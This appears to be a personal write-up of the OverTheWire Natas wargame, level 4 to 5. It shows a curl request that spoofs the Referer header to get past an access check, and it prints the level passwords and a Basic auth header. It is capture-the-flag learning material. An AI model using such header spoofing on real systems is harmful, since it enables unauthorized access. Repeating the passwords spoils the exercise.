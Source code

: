 <img width="598" alt="Screenshot 2025-05-28 at 7 07 41 PM" src="https://github.com/user-attachments/assets/7b2d63c6-b2be-47e1-b1a9-7d2e8a84afd7" />
<img width="557" alt="Screenshot 2025-05-28 at 7 08 03 PM" src="https://github.com/user-attachments/assets/1d516330-1914-4713-8537-b6d35c7d7f13" />
<img width="615" alt="Screenshot 2025-05-28 at 7 08 15 PM" src="https://github.com/user-attachments/assets/28efd70b-e816-49c4-94d6-d01408f6d941" />

## 4->5
- http://natas4.natas.labs.overthewire.org/
- `natas5:0n35PkggAPm2zbEpOU802c0x0Msn1ToK`
- Hmm, not sure what to do on this. Clue is to impersonate natas5? How to do this? How can I manipulate the request?
- Maybe something to do with the `Refresh Page` button?
- https://mayadevbe.me/posts/overthewire/natas/natas4/
- Ah, so when `index.php` is accessed, we can use Dev Tools to copy the request as a `cURL` command, then in the command, we can change the request headers `Referer` from `natas4` to `natas5`.
- But how do we know it is the request header `Referer` we need to update? https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Referer

<img width="2226" alt="Screenshot 2025-05-29 at 6 41 44 PM" src="https://github.com/user-attachments/assets/d89b6dc9-2821-44cb-8073-2542916cf4a1" />
<img width="2211" alt="Screenshot 2025-05-29 at 6 42 14 PM" src="https://github.com/user-attachments/assets/662e0bb9-ce5f-4989-a358-4d8c2f08a3a0" />
<img width="2550" alt="Screenshot 2025-05-29 at 6 45 36 PM" src="https://github.com/user-attachments/assets/5f97f270-ec7a-4b3c-8742-b1773935bd93" />

```bash
curl 'http://natas4.natas.labs.overthewire.org/index.php' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
  -H 'Accept-Language: en-US,en;q=0.9,es;q=0.8' \
  -H 'Authorization: Basic bmF0YXM0OlFyeVpYYzJlMHphaFVMZEhydEh4enlZa2o1OWtVeExR' \
  -H 'Connection: keep-alive' \
  -b '_ga=GA1.1.1643144631.1741815779; _ga_RD0K2239G0=GS2.1.s1748568709$o17$g1$t1748568710$j59$l0$h0' \
  -H 'Referer: http://natas5.natas.labs.overthewire.org/' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36' \
  --insecure
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "QryZXc2e0zahULdHrtHxzyYkj59kUxLQ" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is 0n35PkggAPm2zbEpOU802c0x0Msn1ToK
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```
